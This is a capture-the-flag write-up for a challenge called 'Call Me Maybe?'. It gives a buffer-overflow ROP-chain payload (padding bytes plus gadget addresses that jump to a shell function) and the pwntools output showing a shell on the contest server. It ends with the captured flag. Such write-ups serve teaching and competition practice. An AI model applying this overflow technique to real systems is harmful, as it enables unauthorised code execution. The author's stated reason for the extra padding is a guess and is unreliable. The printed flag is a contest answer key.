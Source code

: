 
After just tinkering with the payload for a while I got the Flag. The final code is in `solve.py`. My theory is that some padding is needed in the rop chain so that the ROPgadgets actually work properly on the stack (for example, the values aren't overriden or something idk I'm not an expert)

Payload :

```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x00000000004006ea) # shell()
ropchain += p64(0x0000000000400873) #pop rdi; ret
ropchain += p64(0xDEADBEEF)
ropchain += p64(0x00000000004006ea) # shell()

payload = contact + padding + ropchain
```

Output:

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.215
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
120
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^\x05@\x00\x00\x00\x00\x00^\x05@\x00\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00s\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^@...
Unauthorized.
callmemaybe
CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}
```


## Flag
`CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}`
